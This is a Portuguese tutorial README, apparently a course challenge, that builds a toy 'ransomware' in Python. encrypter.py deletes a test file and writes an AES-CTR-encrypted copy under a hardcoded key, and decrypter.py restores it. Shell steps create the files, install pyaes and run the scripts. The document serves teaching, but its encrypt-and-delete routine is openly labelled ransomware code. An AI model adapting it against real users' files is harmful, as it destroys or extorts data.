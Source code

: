 # Ransomware para criptografar arquivos

### Ferramentas

- Kali Linux
- Python
- vim

### Criando os códigos e arquivos

- Criar diretório e arquivos de código e texto
```shell
$ mkdir desafio-ransomware
$ touch encrypter.py
$ touch decrypter.py
$ touch teste.txt
```

- Criar o código do arquivo encrypter.py

```python 
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

- Criar o código do arquivo decrypter.py

```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

- Criar o conteúdo do arquivo de texto

```shell
echo "alo brasil" > teste.txt
```

### Instalando biblioteca pyaes para execução do código

```shell
sudo apt install python3-pyaes
```

### Criptografando o arquivo

```shell
python3 encrypter.py
cat teste.txt
```

### Descriptografando o arquivo

```shell
python3 decrypter.py
cat teste.txt
```
